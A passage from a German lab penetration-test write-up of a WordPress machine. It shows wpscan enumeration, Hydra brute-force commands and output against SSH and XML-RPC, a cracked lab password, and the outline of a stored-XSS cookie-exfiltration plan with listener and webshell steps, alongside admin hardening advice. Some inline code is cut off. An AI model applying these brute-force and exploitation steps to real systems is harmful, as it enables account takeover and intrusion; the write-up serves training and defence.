1.1:** Das verwendete Theme ist veraltet (aktuell wäre 2.0). Veraltete Themes können Schwachstellen enthalten. * **Plugins:** * **`akismet` Version 4.2.2:** Ist veraltet (aktuell wäre 5.4). * **`easy-cookies-policy` Version 1.6.2:** Ist laut WPScan aktuell, aber es wurde eine spezifische Schwachstelle identifiziert: **"Easy Cookie Policy <= 1.6.2 - Broken Access Control to Stored Cross-Site Scripting (CVE-2021-24405)"**. Dies ist ein sehr wichtiger Fund, da eine XSS-Schwachstelle oft einen Einstiegspunkt ermöglicht. Das Plugin-Verzeichnis hat zudem Directory Listing aktiviert. * **Benutzer-Enumeration:** * `trumpeter`: Bestätigt den Fund aus dem vorherigen `curl`-Test. * `blessed`: Ein weiterer Benutzer wurde enumeriert. Dies ist ein neuer, wichtiger Name für unsere Angriffsversuche.
**Bewertung:** `wpscan` hat eine Goldgrube an Informationen geliefert. Die wichtigsten Erkenntnisse sind: 1. Die Entdeckung eines zweiten Benutzers: `blessed`. 2. Die Identifizierung einer spezifischen Stored XSS-Schwachstelle im Plugin `easy-cookies-policy` (CVE-2021-24405). Dies ist der vielversprechendste Angriffsvektor bisher. 3. Veraltete Versionen des Themes `twentytwentytwo` und des Plugins `akismet`, die ebenfalls auf Schwachstellen untersucht werden sollten. 4. Aktiviertes XML-RPC und Directory Listing im Upload-Verzeichnis sind weitere Angriffspunkte bzw. Informationslecks. Das Fehlen einer erkannten WordPress-Version ist nicht ungewöhnlich, wenn Sicherheitsmaßnahmen getroffen wurden, um dies zu verschleiern.
**Empfehlung (Pentester):**
1. **CVE-2021-24405 (Easy Cookie Policy XSS):** Dies ist der primäre Fokus. Recherchiere die Details dieser Schwachstelle und versuche, sie auszunutzen. Stored XSS ist besonders gefährlich, da der bösartige Code auf dem Server gespeichert und jedem Besucher (oder spezifischen Benutzern wie Admins) ausgeliefert wird.
2. **Benutzer `blessed` und `trumpeter`:** Verwende diese Benutzernamen für Passwort-Brute-Force-Angriffe gegen den WordPress-Login (`wp-login.php`) und XML-RPC.
3. **Veraltete Komponenten:** Suche nach bekannten Exploits für `akismet` Version 4.2.2 und das Theme `twentytwentytwo` Version 1.1.
4. **XML-RPC:** Teste auf Brute-Force-Möglichkeiten über `xmlrpc.php`.
5. **Upload-Verzeichnis:** Überprüfe manuell das Verzeichnis `wp-content/uploads/` auf interessante oder sensible Dateien.
**Empfehlung (Admin):**
1. **Plugin `easy-cookies-policy` sofort aktualisieren oder deaktivieren/entfernen:** CVE-2021-24405 muss umgehend adressiert werden. Da das Plugin laut WPScan aktuell ist (1.6.2), die Schwachstelle aber Versionen *bis einschließlich* 1.6.2 betrifft, ist ein Update auf eine gefixte Version (falls verfügbar) oder der Wechsel zu einem anderen Cookie-Plugin dringend anzuraten. Bis dahin sollte es deaktiviert werden.
2. **Theme und andere Plugins aktualisieren:** Das Theme `twentytwentytwo` und das Plugin `akismet` müssen auf die neuesten Versionen aktualisiert werden. Generell alle Themes und Plugins aktuell halten.
3. **XML-RPC absichern/deaktivieren:** Wenn XML-RPC nicht benötigt wird, deaktiviere es. Ansonsten durch Sicherheitsplugins oder Serverkonfigurationen gegen Brute-Force und andere Angriffe schützen.
4. **Directory Listing im Upload-Verzeichnis deaktivieren:** Verhindere die Auflistung von Dateien im `wp-content/uploads/`-Verzeichnis (und anderen relevanten Verzeichnissen) durch eine entsprechende Webserver-Konfiguration (z.B. `Options -Indexes` für Apache oder `autoindex off;` für Nginx).
5. **Benutzer-Enumeration erschweren:** Siehe vorherige Empfehlungen zur Einschränkung der WordPress REST API.
6. **Regelmäßige Scans:** Führe regelmäßig `wpscan` oder ähnliche Sicherheitsscanner gegen die eigene WordPress-Instanz durch, um Schwachstellen frühzeitig zu erkennen.
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:47:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344489 login tries (l:1/p:14344489), ~224133 tries per task
[DATA] attacking ssh://192.168.2.202:22222/
[STATUS] 498.00 tries/min, 498 tries in 00:01h, 14344026 to do in 480:04h, 29 active
[STATUS] 482.00 tries/min, 1446 tries in 00:03h, 14343078 to do in 495:58h, 29 active
[STATUS] 472.71 tries/min, 3309 tries in 00:07h, 14341215 to do in 505:39h, 29 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
**Analyse:** Hier versuche ich, mit `hydra` einen Brute-Force-Angriff auf den SSH-Dienst (Port 22222) durchzuführen. * `-l trumpeter`: Gibt den Benutzernamen an, für den Passwörter getestet werden sollen. Diesen Namen haben wir zuvor via WordPress REST API und `wpscan` enumeriert. * `-P /usr/share/wordlists/rockyou.txt`: Verwendet die bekannte und sehr umfangreiche Passwortliste `rockyou.txt`. * `ssh://192.168.2.202`: Gibt das Ziel und das Protokoll (SSH) an. * `-s 22222`: Spezifiziert den nicht-standardmäßigen SSH-Port. * `-t 64`: Setzt die Anzahl der parallelen Tasks auf 64. Hydra gibt eine Warnung aus, dass dies für SSH zu viele sein könnten und empfiehlt, `-t 4` zu verwenden, da SSH-Server oft die Anzahl paralleler Verbindungsversuche limitieren, um Brute-Force-Angriffe zu verlangsamen. Der Angriff wurde nach einigen Minuten manuell mit `^C` (Strg+C) abgebrochen, wie die Statusmeldungen und der Hinweis auf die `.restore`-Datei zeigen. Es wurde kein Passwort gefunden in der Zeit, in der der Angriff lief. Die geschätzte Restzeit war extrem lang ("505:39h").
**Bewertung:** Der Brute-Force-Versuch auf den SSH-Dienst für den Benutzer `trumpeter` war in der kurzen Laufzeit nicht erfolgreich. Die `rockyou.txt` ist sehr groß, und ohne weitere Hinweise auf Passwortschemata kann ein solcher Angriff sehr lange dauern oder erfolglos bleiben, besonders wenn der Benutzer ein starkes Passwort hat oder der Server Verbindungsversuche drosselt. Die hohe Task-Anzahl (`-t 64`) könnte den Angriff zusätzlich ineffektiv gemacht haben, falls der Server tatsächlich parallele Logins limitiert. Das Abbrechen des Versuchs ist verständlich, um sich auf vielversprechendere Angriffsvektoren zu konzentrieren (wie die XSS-Schwachstelle).
**Empfehlung (Pentester):**
1. **Prioritäten setzen:** Da die XSS-Schwachstelle im `easy-cookies-policy` Plugin vielversprechender aussieht, sollte diese zuerst fokussiert werden.
2. **Gezieltere Passwortlisten:** Wenn weitere Informationen über das Ziel oder die Benutzer bekannt werden (z.B. Firmenname, Interessen des Benutzers), könnten benutzerdefinierte, kleinere Passwortlisten erstellt werden.
3. **Weniger Tasks für SSH:** Bei zukünftigen SSH-Brute-Force-Versuchen die von Hydra empfohlene geringere Task-Anzahl (z.B. `-t 4`) verwenden.
4. **Anderen Benutzer testen:** Den gleichen Brute-Force-Versuch auch für den Benutzer `blessed` starten, falls die XSS-Ausnutzung nicht direkt zum Erfolg führt.
**Empfehlung (Admin):**
Die Empfehlungen zur Absicherung von SSH (Root-Login deaktivieren, starke Passwörter, Schlüsselauthentifizierung, Fail2Ban) sind hier besonders relevant. Ein laufender Brute-Force-Angriff sollte von Monitoring-Systemen oder Tools wie Fail2Ban erkannt und die IP des Angreifers blockiert werden. Die Tatsache, dass der Angriff (wenn auch mit zu vielen Tasks) eine Weile lief, ohne dass eine Blockade erfolgte (zumindest ist keine im Output ersichtlich), könnte auf das Fehlen solcher Schutzmaßnahmen hindeuten.
* Trying 192.168.2.202:8080... * Connected to 192.168.2.202 (192.168.2.202) port 8080 * using HTTP/1.x > GET /admin.php HTTP/1.1 > Host: shemhamphorash.local > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK < Server: nginx/1.18.0 < Date: Mon, 26 May 2025 20:55:30 GMT < Content-Type: text/html; charset=UTF-8 < Transfer-Encoding: chunked < Connection: keep-alive < * Connection #0 to host 192.168.2.202 left intact
* Trying 192.168.2.202:8080... * Connected to 192.168.2.202 (192.168.2.202) port 8080 * using HTTP/1.x > GET /info.php HTTP/1.1 > Host: shemhamphorash.local > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK < Server: nginx/1.18.0 < Date: Mon, 26 May 2025 20:55:50 GMT < Content-Type: text/html; charset=UTF-8 < Transfer-Encoding: chunked < Connection: keep-alive < * Connection #0 to host 192.168.2.202 left intact
**Analyse:** Hier untersuche ich die zuvor mit `dirb` auf Port 8080 gefundenen Dateien (`admin.php` und `info.php`) genauer mit `curl`. Wichtig ist hier die Verwendung des Host-Headers `-H "Host: shemhamphorash.local"`. Dies ist ein Versuch, zu überprüfen, ob der Nginx-Server auf Port 8080 unterschiedlich reagiert, wenn dieser spezifische Hostname im Request-Header gesendet wird, da `dirb` zuvor bei diesen Dateien eine Größe von 0 gemeldet hatte. * **`curl ... /admin.php -v`**: Die Anfrage an `/admin.php` mit dem Host-Header `shemhamphorash.local` liefert einen `HTTP/1.1 200 OK` Status. Der `Content-Type` ist `text/html; charset=UTF-8` und `Transfer-Encoding: chunked`. Crucially, anders als bei `dirb` (das vermutlich keinen oder einen anderen Host-Header sendete), wird hier nicht explizit eine Größe von 0 gemeldet, sondern `Transfer-Encoding: chunked` deutet darauf hin, dass Inhalt gesendet wird/wurde, auch wenn `curl -v` ohne Body-Ausgabe hier keine Inhaltslänge zeigt. * **`curl ... /info.php -v`**: Die Anfrage an `/info.php` mit demselben Host-Header zeigt ein identisches Verhalten: `HTTP/1.1 200 OK`, `Content-Type: text/html; charset=UTF-8`, `Transfer-Encoding: chunked`. Das Ausbleiben des tatsächlichen HTML-Bodys in der `curl -v` Ausgabe (da `-v` primär Header und Verbindungsdetails zeigt, nicht den Body, es sei denn, es wird explizit angefordert oder ist sehr klein) bedeutet nicht zwangsläufig, dass der Body leer ist. Die `Transfer-Encoding: chunked` und `Content-Type: text/html` deuten darauf hin, dass HTML-Inhalt gesendet werden soll.
**Bewertung:** Diese Tests zeigen, dass der Nginx-Server auf Port 8080 wahrscheinlich vHost-basiert konfiguriert ist und auf den Host-Header `shemhamphorash.local` reagiert, indem er Inhalt für `/admin.php` und `/info.php` bereitstellt (oder zumindest dies signalisiert). Dies erklärt, warum `dirb` möglicherweise Größe 0 gemeldet hat, wenn es ohne den korrekten Host-Header gescannt hat. Der nächste logische Schritt wäre, den tatsächlichen Inhalt dieser Seiten abzurufen.
**Empfehlung (Pentester):**
1. **Inhalt abrufen:** Verwende `curl` ohne die `-I` oder `-v` Option (oder mit `-v` aber auch den Body ausgeben lassen), um den tatsächlichen HTML-Inhalt von `http://shemhamphorash.local:8080/admin.php` und `http://shemhamphorash.local:8080/info.php` (sowie `/phpinfo.php` und `/xmlrpc.php`) abzurufen. Beispiel: `curl -H "Host: shemhamphorash.local" http://192.168.2.202:8080/admin.php`.
2. **Im Browser öffnen:** Öffne diese URLs auch im Browser, nachdem sichergestellt wurde, dass `shemhamphorash.local` in `/etc/hosts` eingetragen ist, um die gerenderten Seiten zu sehen und interaktiv zu untersuchen.
3. **Weitere vHost-Tests:** Führe Verzeichnis-Scans (mit Gobuster, Feroxbuster, ffuf) auf Port 8080 erneut durch, diesmal aber mit dem explizit gesetzten Host-Header `-H "Host: shemhamphorash.local"`, um möglicherweise andere Ergebnisse als `dirb` zu erhalten.
**Empfehlung (Admin):**
Stelle sicher, dass alle vHost-Konfigurationen auf dem Nginx-Server beabsichtigt sind. Wenn Inhalte nur für bestimmte Hostnamen ausgeliefert werden sollen, ist das legitim, aber die dahinterliegenden Anwendungen müssen natürlich sicher sein. Die Sicherheit von `/admin.php`, `/info.php` etc. ist hier entscheidend.
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 23:00:33
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688978 login tries (l:2/p:14344489), ~1793062 tries per task
[DATA] attacking http-post-form://192.168.2.202:80/sitecore/xmlrpc.php:<?xml version="1.0"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>^USER^</string></value></param><param><value><string>^PASS^</string></value></param></params></methodCall>:S=<ret>isAdmin</ret>
[STATUS] 1822.00 tries/min, 1822 tries in 00:01h, 28687156 to do in 262:25h, 16 active
**Analyse:**
Dieser `hydra`-Befehl versucht einen Brute-Force-Angriff gegen die WordPress XML-RPC-Schnittstelle.
* `-L users.txt`: Gibt eine Datei `users.txt` an, die eine Liste von Benutzernamen enthält (wahrscheinlich `trumpeter` und `blessed`).
* `-P /usr/share/wordlists/rockyou.txt`: Verwendet wieder die `rockyou.txt` Passwortliste.
* `192.168.2.202`: Das Ziel-IP. Implizit wird Port 80 verwendet, da kein Port angegeben ist und `http-post-form` auf HTTP zielt.
* `http-post-form`: Gibt das Hydra-Modul für Angriffe auf Web-Formulare per POST-Request an.
* `"/sitecore/xmlrpc.php:..."`: Definiert den Angriffspfad und die POST-Daten.
* Pfad: `/sitecore/xmlrpc.php`.
* POST-Daten (XML-Payload): `
**Bewertung:**
Der Brute-Force-Angriff auf XML-RPC ist eine valide Technik, da `wpscan` bestätigt hat, dass XML-RPC aktiviert ist. Die verwendete XML-Payload ist Standard für WordPress-Authentifizierungstests über XML-RPC. Die Erfolgsbedingung `:S=
**Empfehlung (Pentester):**
1. **Erfolgsbedingung prüfen:** Verifiziere manuell mit `curl` und gültigen/ungültigen Anmeldeinformationen, wie die XML-RPC-Antwort aussieht, um sicherzustellen, dass die Erfolgsbedingung (`:S=...`) für Hydra korrekt ist. Eine falsche Bedingung kann zu Misserfolg führen.
2. **Andere XML-RPC-Methoden:** Teste ggf. andere XML-RPC-Methoden, die Authentifizierung erfordern.
3. **Wordlist-Größe:** Für XML-RPC können auch kleinere, gezieltere Passwortlisten schneller zum Erfolg führen.
4. **Tools wie `wpscan`:** `wpscan` selbst hat auch Brute-Force-Funktionen für XML-RPC und das Login-Formular, die möglicherweise besser auf WordPress zugeschnitten sind: `wpscan --url ... --users users.txt --passwords rockyou.txt`.
**Empfehlung (Admin):**
Wie bereits erwähnt: XML-RPC absichern oder deaktivieren.
* **Deaktivieren:** Wenn nicht benötigt, komplett deaktivieren (z.B. über Plugins oder Code-Snippets).
* **Absichern:** Wenn benötigt, durch Sicherheits-Plugins schützen, die Brute-Force-Versuche auf XML-RPC erkennen und blockieren (z.B. Limitierung der Anmeldeversuche, Fail2Ban-Integration). Einige Plugins erlauben es auch, XML-RPC zu aktivieren, aber bestimmte riskante Methoden zu deaktivieren.
[i] Plugin(s) Identified: [+] easy-cookies-policy | Location: http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/ | Latest Version: 1.6.2 (up to date) | Last Updated: 2021-02-11T12:05:00.000Z | | Found By: Urls In Homepage (Passive Detection) | | [!] 1 vulnerability identified: | | [!] Title: Easy Cookie Policy <= 1.6.2 - Broken Access Control to Stored Cross-Site Scripting | References: | - https://wpscan.com/vulnerability/9157d6d2-4bda-4fcd-8192-363a63a51ff5 | - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24405 | | Version: 1.6.2 (80% confidence) | Found By: Readme - Stable Tag (Aggressive Detection) | - http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/README.txt [+] Performing password attack on Xmlrpc against 1 user/s Trying blessed / R3v_m4lwh3r3_k1nG!!01 Time: 00:00:06 <> (235 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!02 Time: 00:00:06 <> (237 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!11 Time: 00:00:06 <> (240 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!22 Time: 00:00:06 <> (242 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!99 Time: 00:00:07 <> (245 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!69 Time: 00:00:07 <> (247 / 14344484) 0.00% ETA: ??:??:?Trying blessed / R3v_m4lwh3r3_k1nG!!123 Time: 00:00:07 <> (252 / 14344484) 0.00% ETA: ??:??:Trying blessed / theR3v_m4lwh3r3_k1nG!! Time: 00:00:07 <> (260 / 14344484) 0.00% ETA: ??:??:[SUCCESS] - blessed / yourmom Trying blessed / debbie Time: 00:00:29 < > (1030 / 14345514) 0.00% ETA: ??:??:?? [!] Valid Combinations Found: | Username: blessed, Password: yourmom [+] WPScan DB API OK | Plan: free | Requests Done (during the scan): 3 | Requests Remaining: 13 [+] Finished: Tue May 27 00:56:29 2025 [+] Requests Done: 1210 [+] Cached Requests: 5 [+] Data Sent: 625.062 KB [+] Data Received: 847.831 KB [+] Memory used: 243.867 MB [+] Elapsed time: 00:00:37
**Analyse:** Dieser Textausschnitt stammt offenbar von einem weiteren `wpscan`-Durchlauf oder einer Fortsetzung des vorherigen. Die wichtigsten Teile sind: 1. **Erneute Identifizierung der XSS-Schwachstelle:** Der Scan hebt nochmals die Stored XSS-Schwachstelle (CVE-2021-24405) im Plugin `easy-cookies-policy` Version 1.6.2 hervor. Dies unterstreicht die Bedeutung dieses Findings. 2. **Passwort-Angriff auf XML-RPC:** `wpscan` führt hier selbst einen Passwort-Angriff ("Brute-Force") gegen die XML-RPC-Schnittstelle durch, speziell für den Benutzer `blessed`. Es verwendet wahrscheinlich eine interne oder eine angegebene Passwortliste (hier nicht explizit gezeigt, aber `rockyou.txt` ist eine übliche Annahme, wenn nicht anders angegeben). 3. **Erfolgreicher Login:** Der Angriff ist erfolgreich! `wpscan` meldet: `[SUCCESS] - blessed / yourmom`. 4. **Zusammenfassung:** Unter "[!] Valid Combinations Found:" wird das gefundene Paar bestätigt: Username `blessed`, Passwort `yourmom`. Die Zeitangaben und Fortschrittsbalken zeigen den Verlauf des Passwort-Angriffs.
**Bewertung:** **Fantastisch! Dies ist ein entscheidender Durchbruch!** Wir haben gültige Anmeldeinformationen für den WordPress-Benutzer `blessed` (Passwort: `yourmom`) gefunden. Dies gewährt uns nun authentifizierten Zugriff auf die WordPress-Instanz. Abhängig von den Rechten des Benutzers `blessed` (Administrator, Redakteur, etc.) eröffnen sich dadurch zahlreiche neue Möglichkeiten, von der weiteren Informationsbeschaffung bis hin zur Codeausführung auf dem Server (z.B. durch Plugin-/Theme-Upload oder -Bearbeitung, falls `blessed` Admin-Rechte hat). Das Passwort "yourmom" ist ein relativ schwaches und häufig vorkommendes Passwort, was die Wichtigkeit starker Passwörter unterstreicht.
**Empfehlung (Pentester):**
1. **Login als `blessed`:** Logge dich sofort mit den Anmeldeinformationen `blessed` / `yourmom` in das WordPress-Backend (`http://shemhamphorash.local/sitecore/wp-login.php`) ein.
2. **Rechte prüfen:** Ermittle die Rolle und die Berechtigungen des Benutzers `blessed` innerhalb von WordPress.
3. **Wenn Admin-Rechte vorhanden:**
* Suche nach Möglichkeiten zur Codeausführung: Theme-Editor, Plugin-Editor, Plugin-Upload.
* Versuche, eine Webshell hochzuladen oder eine Reverse Shell zum Angreifer-System aufzubauen.
* Durchsuche die WordPress-Datenbank nach weiteren sensiblen Informationen.
4. **Wenn keine Admin-Rechte vorhanden:**
* Suche nach Privilege-Escalation-Schwachstellen innerhalb von WordPress (fehlerhaft konfigurierte Plugins, etc.).
* Nutze den authentifizierten Zugriff, um die zuvor identifizierte XSS-Schwachstelle im `easy-cookies-policy` Plugin gezielter auszunutzen (z.B. um die Sitzung eines Administrators zu stehlen, falls der Admin die Seite besucht, auf der die XSS ausgelöst wird).
5. **Passwort-Wiederverwendung:** Teste das Passwort `yourmom` auch für den SSH-Zugang des Benutzers `blessed` (falls ein Systemkonto mit diesem Namen existiert) und für andere gefundene Benutzer (`trumpeter`, `root`).
**Empfehlung (Admin):**
1. **Passwort von `blessed` sofort ändern:** Das Passwort für den Benutzer `blessed` muss umgehend in ein starkes, einzigartiges Passwort geändert werden.
2. **Passwortrichtlinien durchsetzen:** Implementiere und erzwinge starke Passwortrichtlinien für alle WordPress-Benutzer (Mindestlänge, Komplexität, regelmäßige Änderungen).
3. **Zwei-Faktor-Authentifizierung (2FA):** Aktiviere 2FA für alle WordPress-Benutzerkonten, insbesondere für Administratoren.
4. **Audit der Benutzerkonten:** Überprüfe alle Benutzerkonten auf Notwendigkeit und angemessene Berechtigungen. Entferne nicht mehr benötigte Konten.
5. **XML-RPC absichern:** Siehe vorherige Empfehlungen zur Absicherung von XML-RPC.
6. **Monitoring:** Überwache fehlgeschlagene und erfolgreiche Login-Versuche, um verdächtige Aktivitäten schneller zu erkennen.
http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/
**Analyse:** Hier wird die URL `http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/` aufgerufen. Der vorherige `wpscan`-Bericht hat bereits darauf hingewiesen, dass für dieses Plugin-Verzeichnis "Directory Listing is enabled" ist. Das Bild `wp_policy_verzeichnis.jpg` zeigt den Inhalt dieses Verzeichnisses, wie er im Browser dargestellt wird, wenn man die URL direkt aufruft. Man sieht typischerweise eine Liste der Dateien und Unterverzeichnisse innerhalb des Plugin-Ordners.
**Bewertung:** Die aktivierte Verzeichnisauflistung (Directory Listing) für das Plugin-Verzeichnis `easy-cookies-policy` ist ein Informationsleck. Es ermöglicht einem Angreifer, die genaue Dateistruktur des Plugins einzusehen, einschließlich aller PHP-Dateien, Readme-Dateien, Lizenzinformationen, JavaScript-Dateien, CSS-Dateien und möglicherweise anderer Ressourcen. Dies kann die Suche nach weiteren Schwachstellen oder das Verständnis der Plugin-Funktionsweise erleichtern. Im Kontext der bereits bekannten XSS-Schwachstelle CVE-2021-24405 in diesem Plugin ist es zwar nicht der primäre Angriffsvektor, aber es trägt zur allgemeinen Informationsgewinnung bei.
**Empfehlung (Pentester):**
Durchsuche die aufgelisteten Dateien nach weiteren interessanten Informationen:
* `README.txt` oder ähnliche Dateien können Versionsinformationen oder Details zur Funktionalität enthalten.
* Quellcode von PHP- oder JavaScript-Dateien könnte auf weitere Schwachstellen oder Logikfehler hinweisen.
* Konfigurationsdateien (obwohl bei WP-Plugins seltener direkt im Verzeichnis) könnten sensible Daten enthalten.
**Empfehlung (Admin):**
**Directory Listing deaktivieren:** Wie bereits mehrfach empfohlen, sollte die Auflistung von Verzeichnisinhalten auf dem Webserver global oder zumindest für sensible Bereiche wie `wp-content` deaktiviert werden.
* Für Apache: Füge `Options -Indexes` zur entsprechenden `
Proof of Concept: Ausnutzung der Stored XSS in Easy Cookie Policy (CVE-2021-24405)
**Kurzbeschreibung:** Das WordPress-Plugin "Easy Cookie Policy" ist in Versionen bis einschließlich 1.6.2 anfällig für eine Stored Cross-Site Scripting (XSS) Schwachstelle aufgrund von unzureichender Validierung und Sanitisierung von Benutzereingaben in den Plugin-Einstellungen. Ein Angreifer mit Zugriff auf die Plugin-Einstellungen (in diesem Fall potenziell der Benutzer "blessed", dessen Passwort wir erlangt haben) kann bösartigen JavaScript-Code einschleusen. Dieser Code wird auf dem Server gespeichert und bei jedem Seitenaufruf ausgeführt, bei dem der Cookie-Hinweis des Plugins angezeigt wird. Ziel dieses POC ist es, diese XSS-Schwachstelle auszunutzen, um Informationen vom Browser eines anderen Benutzers (idealerweise eines Administrators) zu stehlen oder Code im Kontext seiner Sitzung auszuführen. Wir werden versuchen, Cookies zu exfiltrieren und später einen BeEF-Hook zu injizieren.
**Voraussetzungen:** 1. Zugriff auf einen WordPress-Benutzeraccount, der die Einstellungen des "Easy Cookie Policy"-Plugins bearbeiten kann (z.B. "blessed" mit Passwort "yourmom"). 2. Ein laufender HTTP-Listener auf dem Angreifer-System (z.B. `nc -lvnp 9001` oder ein Python HTTP-Server), um exfiltrierte Daten zu empfangen. 3. Ein Webserver auf dem Angreifer-System, um bösartige JavaScript-Dateien zu hosten (z.B. `python3 -m http.server 8000`). 4. Kenntnis der IP-Adresse des Angreifer-Systems (hier `192.168.2.199`). 5. Ein Opfer (z.B. ein simulierter Admin-Bot oder ein anderer Benutzer), der die Webseite besucht, nachdem der XSS-Payload injiziert wurde.
**Erwartetes Ergebnis:** Erfolgreiche Injektion von JavaScript-Code, der im Browser des Opfers ausgeführt wird. Dies kann zur Exfiltration von Cookies, zur Übernahme der Sitzung des Opfers (Session Hijacking) oder zur weiteren Kompromittierung des Systems führen, wenn das Opfer über administrative Rechte verfügt.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 23:19 CEST NSE: Loaded 47 scripts for scanning. Initiating ARP Ping Scan at 23:19 Scanning 192.168.2.202 [1 port] Completed ARP Ping Scan at 23:19, 0.05s elapsed (1 total hosts) Initiating SYN Stealth Scan at 23:19 Scanning shemhamphorash.hmv (192.168.2.202) [1 port] Discovered open port 22222/tcp on 192.168.2.202 Completed SYN Stealth Scan at 23:19, 0.04s elapsed (1 total ports) Initiating Service scan at 23:19 Scanning 1 service on shemhamphorash.hmv (192.168.2.202) Completed Service scan at 23:19, 0.03s elapsed (1 service on 1 host) NSE: Script scanning 192.168.2.202. NSE: Starting runlevel 1 (of 2) scan. Initiating NSE at 23:19 Completed NSE at 23:19, 0.00s elapsed NSE: Starting runlevel 2 (of 2) scan. Initiating NSE at 23:19 Completed NSE at 23:19, 0.00s elapsed Nmap scan report for shemhamphorash.hmv (192.168.2.202) Host is up, received arp-response (0.00015s latency). Scanned at 2025-05-26 23:19:36 CEST for 0s PORT STATE SERVICE REASON VERSION 22222/tcp open ssh syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0) MAC Address: 08:00:27:78:9D:97 (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Read data files from: /usr/share/nmap Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds Raw packets sent: 2 (72B) | Rcvd: 2 (72B)
**Analyse:** Dieser Nmap-Scan wird hier wiederholt, fokussiert auf Port 22222. * `-sV`: Versionserkennung. * `-p 22222`: Scannt nur Port 22222. * `-Pn`: Überspringt die Host-Discovery-Phase (Ping-Scan) und nimmt an, dass der Host online ist. Nützlich, wenn Hosts Ping-Anfragen blockieren. * `-vv`: Sehr ausführliche Ausgabe (Verbose Level 2). Der Scan bestätigt erneut, dass Port 22222 offen ist und von OpenSSH 8.4p1 Debian 5 betrieben wird. Die MAC-Adresse und Betriebssysteminformationen sind konsistent mit früheren Scans. Der Grund für die Wiederholung dieses Scans im POC-Abschnitt ist nicht unmittelbar ersichtlich, es sei denn, es dient dazu, die Erreichbarkeit des SSH-Ports zu diesem Zeitpunkt erneut zu bestätigen, bevor man sich auf die Web-Exploits konzentriert. Oft werden im Laufe eines Pentests Scans wiederholt, um sicherzustellen, dass sich der Zustand des Systems nicht geändert hat oder um spezifische Details mit anderen Optionen zu verifizieren.
**Bewertung:** Der Scan liefert keine neuen Informationen im Vergleich zu den vorherigen Nmap-Ergebnissen für Port 22222. Er bestätigt die Konsistenz der bisherigen Funde. Im Kontext des XSS-POC ist dieser SSH-Scan nicht direkt relevant, es sei denn, es gäbe einen Plan, nach erfolgreicher XSS-Ausnutzung und potenzieller Kompromittierung eines Admin-Kontos SSH-Zugangsdaten zu finden und diesen Port zu nutzen.
**Empfehlung (Pentester):**
Da die Informationen bereits bekannt sind, kann dieser spezifische Scan als Verifizierungsschritt betrachtet werden. Der Fokus sollte jetzt auf der Ausnutzung der identifizierten Web-Schwachstellen liegen.
**Empfehlung (Admin):**
Die Empfehlungen zur Absicherung des SSH-Dienstes bleiben gültig. Die Wiederholung des Scans ändert nichts an der Notwendigkeit dieser Maßnahmen.
somit ist der exploit anwendbar
http://shemhamphorash.local/sitecore/wp-login.php
2 Anfragen
2,71 kB / 2,73 kB übertragen
Beendet: 158 ms
DOMContentLoaded: 46 ms
load: 61 ms
easy_cookies_policy_check "16c2f73697465636"
easy_cookies_policy_warning "2"
wordpress_test_cookie "WP Cookie check"
**Analyse:** Die Aussage "somit ist der exploit anwendbar" bezieht sich wahrscheinlich auf die zuvor mit `wpscan` identifizierte Stored XSS-Schwachstelle (CVE-2021-24405) im Plugin `easy-cookies-policy`. Darunter folgen Informationen, die typischerweise aus den Entwicklertools eines Webbrowsers stammen (Netzwerkanalyse-Tab), nachdem die WordPress-Login-Seite `http://shemhamphorash.local/sitecore/wp-login.php` aufgerufen wurde. * "2 Anfragen, 2,71 kB / 2,73 kB übertragen, Beendet: 158 ms...": Dies sind Metriken zum Ladevorgang der Seite. * Darunter werden Cookies aufgelistet, die für die Domain `shemhamphorash.local` gesetzt sind: * `easy_cookies_policy_check`: Ein Cookie, das wahrscheinlich vom "Easy Cookie Policy"-Plugin gesetzt wird, um den Status der Cookie-Zustimmung zu verfolgen. Der Wert "16c2f73697465636" sieht hexadezimal kodiert aus. * `easy_cookies_policy_warning`: Ein weiteres Cookie des Plugins, möglicherweise um zu steuern, ob der Cookie-Hinweis angezeigt wird (Wert "2"). * `wordpress_test_cookie`: Ein Standard-WordPress-Cookie, das gesetzt wird, um zu prüfen, ob der Browser des Benutzers Cookies akzeptiert. Die Login-Seite selbst funktioniert nun, nachdem `shemhamphorash.local` in `/etc/hosts` eingetragen wurde.
